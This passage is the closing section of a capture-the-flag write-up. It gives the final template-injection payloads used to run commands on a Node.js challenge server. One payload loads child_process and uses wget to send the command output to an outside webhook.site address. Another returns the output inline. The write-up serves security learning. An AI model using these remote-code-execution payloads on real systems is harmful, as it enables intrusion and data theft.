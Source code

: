 # Final payload

Going back to the challenge, the payload I submitted worked flawlessly. The problem now is that there isn't a straightforward way to display the command result, so I made a call to a webhook.site.

```plaintext
div&attributes{global.process.mainModule.constructor._load("child_process").execSync('wget https://webhook.site/6964b783-05f8-4a10-be20-817e961902bb?t=`/readflag GIVEFLAGPLS`')}
```

In retrospect, webhook was unnecessary, and I could just as well have done:

```plaintext
input&attributes({value: global.process.mainModule.constructor._load("child_process").execSync('/readflag GIVEFLAGPLS').toString()})
```

In either case, I got the flag: `grey{I_cAn'T_THInK_0F_AnytHing_clever_T0_pu7_h3r3}`.

Overall, quite a cool challenge that tests your code-auditing abilities.
